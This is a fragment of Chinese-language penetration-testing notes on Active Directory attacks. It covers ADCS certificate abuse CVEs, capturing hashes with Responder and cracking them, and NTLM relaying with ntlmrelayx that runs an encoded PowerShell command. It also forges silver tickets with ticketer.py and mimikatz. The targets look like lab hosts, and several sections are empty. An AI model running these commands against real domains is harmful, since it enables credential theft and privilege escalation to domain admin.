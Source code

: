4、ADCS 证书攻击

2021年进入人们视野，在域中可以使用证书进行身份认证，身份鉴别在于私钥，拥有私钥甚至可以用作权限维持，总是可以获取到最新的NTLM hash。

但是不是所有的证书都可以用来进行身份认证，只有部分配置了特殊权限的证书可以。

## Certify.git

https://github.com/ademkanat/Certify.git

##### CVE-2022-26923

该漏洞便是因为机器账户，可以申请域控的证书，导致的普通用户提权到域管。

certipy攻击


##### CVE-2021-42287 

该漏洞和上述漏洞较为相似，但是攻击链更为复杂，同样是需要一个有效用户。

可梭哈

错误的ADCS模板配置：


##### Exchange

两条攻击链，均可梭哈

## 9、中继

这种方式其实叫做认证：

```
sudo responder -i 10.10.16.3 -I tun0

抓到的hash需要破解，装进txt，使用john --wordlist=xxx hash.txt
或者：hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```

中继：
ntlmrelayx

```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

dir \\192.168.45.168\test

## 10、白银票据

特殊情况下获得服务的密码以及sid和spn，可以尝试：

```
ntlm hash生成网站：
https://www.browserling.com/tools/ntlm-hash

需要：sid\spn:

python ../impacket/examples/ticketer.py -domain-sid S-1-5-21-2743207045-1827831105-2542523200-502 -spn MSSQLSvc/dc1.scrm.local -nthash B999A16500B87D17EC7F2E2A68778F05 -domain scrm.local administrator


mimikatz:

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

```